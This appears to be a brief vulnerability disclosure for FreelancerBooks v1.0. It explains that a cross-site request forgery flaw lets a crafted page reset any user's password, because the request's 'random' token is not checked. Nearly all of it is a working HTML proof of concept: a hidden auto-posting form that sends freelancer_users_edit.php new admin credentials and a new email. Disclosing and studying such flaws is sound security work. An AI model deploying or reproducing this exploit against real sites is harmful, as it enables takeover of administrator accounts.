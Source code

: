 There is a vulnerability in the FreelancerBooks v1.0 that allows a crafted page to reset the password of an arbitrary user.

There is a "random" value included as part of the request, but you can just generate the CSRF HTML without that value
and the password will still be changed.

Exploit POC:

````
<html>

  <body>

  <script>history.pushState('', '', '/')</script>

    <form action="http://HOSTNAME/freelancer/freelancer_users_edit.php?submit=1&fly=1&editid1=1&" method="POST" enctype="multipart/form-data">

      <input type="hidden" name="value&#95;username&#95;7" value="admin" />

      <input type="hidden" name="value&#95;password&#95;7" value="admin1234567" />

      <input type="hidden" name="value&#95;email&#95;7" value="test&#64;test&#46;com" />

      <input type="hidden" name="value&#95;fullname&#95;7" value="Admin" />

      <input type="hidden" name="value&#95;groupid&#95;7" value="Admin" />

      <input type="hidden" name="value&#95;active&#95;7" value="1" />

      <input type="hidden" name="parId" value="1" />

      <input type="hidden" name="rowId" value="4" />

      <input type="hidden" name="table" value="freelancer&#95;users" />

      <input type="hidden" name="editType" value="3" />

      <input type="hidden" name="id" value="7" />

      <input type="hidden" name="onFly" value="1" />

      <input type="hidden" name="a" value="edited" />

      <input type="hidden" name="editid1" value="1" />

      <input type="submit" value="Submit request" />

    </form>

  </body>

</html>

````
